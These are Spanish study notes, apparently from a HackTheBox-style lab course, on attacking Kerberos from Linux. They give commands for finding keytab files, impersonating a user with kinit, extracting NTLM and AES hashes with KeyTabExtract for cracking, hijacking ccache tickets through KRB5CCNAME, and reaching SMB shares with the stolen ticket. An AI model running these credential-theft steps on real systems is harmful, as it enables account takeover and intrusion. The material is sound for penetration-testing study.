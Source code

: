 #### Obtener información 
- Buscar archivos con extensión `.keytab`
```bash
	find / -name *keytab* -ls 2>/dev/null
```
- Buscar archivos keytab en cronjobs
```bash
	crontab -l
```
#### Mostrar información de los keytab - `klist`
```bash
klist -k -t /opt/specialfiles/carlos.keytab
```
`-k` (`archivo keytab`) y `-t` (`timestamp`) 
Si no ponemos parámetros se muestra información sobre los tickets Kerberos activos en el contexto del usuario o proceso actual
#### Suplantar la identidad de un usuario - `kinit`
```bash
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
```
`-k` (`archivo keytab`)  y  `-t` (`keytab file`)
**IMPORTANTE:** Este comando cambia la información de la variable de entorno `KRB5CCNAME` (por lo que sería conveniente copiar el valor de la variable de entorno antes de ejecutar este comando) y es sensitivo a mayúsculas (el dominio suele ir en mayúsculas) y minúsculas(el nombre de usuario suele ir en minúsculas)
#### Convertir un ticket a hash - keytab extract
Con un ticket tenemos acceso al sistema, pero no a la máquina. Esto nos permite convertir un ticket en un hash, con la idea de encontrar una contraseña válida del usuario de ese ticket. 
Descargamos la herramienta  [KeyTabExtract](https://github.com/sosdave/KeyTabExtract) en nuestra máquina comprometida. Una vez descargada:

```bash
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```
mostraría los hashes `NTML`, `AES-256` ó `AES-128`. El hash NTML es el más fácil de crackear (p.ej: con [crackstation](https://crackstation.net/))
### ccache
#### Obtener información
```bash
ls -la /tmp
```
Los archivos ccache son de la forma `krb5cc_<UID>` Necesitaremos permisos de lectura sobre estos archivos para poder realizar alguna de las acciones que se mencionan a continuación. 
#### Importar archivos ccache a nuestra sesión
```bash
klist # mostraría la información del usuario actual
cp /tmp/krb5cc_647401106_I8I133 .
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
klist # mostrará la información del usuario julio. Habrá que comprobar que la fecha de expiración sea válida
```
Después de esto ya podríamos acceder a otros servicios como `smb` si el nuevo usuario tuviera permisos
```bash
smbclient //dc01/C$ -k -c ls -no-pass
```
### Linux attack tools
#### Configuración de pwnbox no unida al dominio
##### Modificar `/etc/hosts`
Suponiendo un escenario en el que nuestro host no tiene conexión con el `KDC/DC` y no podemos usar el DC para la resolución de nombres
```
172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
```